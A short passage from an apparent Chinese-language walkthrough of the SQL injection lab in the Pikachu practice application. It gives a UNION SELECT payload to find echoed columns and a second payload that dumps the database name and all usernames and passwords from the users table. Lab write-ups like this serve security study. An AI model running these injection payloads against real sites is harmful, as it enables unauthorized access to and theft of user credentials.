 

说明有三个字段

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882404034-285c2846-43e9-49ef-bef3-9a650f2ccf78.png)



查看回显字段，输入

```plain
XMTX' union select 1,2,3--
```

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882410347-3ac62e44-1f48-42f2-8daa-6a32b8ec1d06.png)



SQL注入详情可以看sqli-labs系类，这里不进行详细叙述，直接爆账号和密码了。

```plain
XMTX' union select 1,database(),group_concat(concat_ws('-',username,password)) from pikachu.users --
```

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882417047-9bb2ee61-c40c-4bbe-92b9-dacaf962f1da.png)
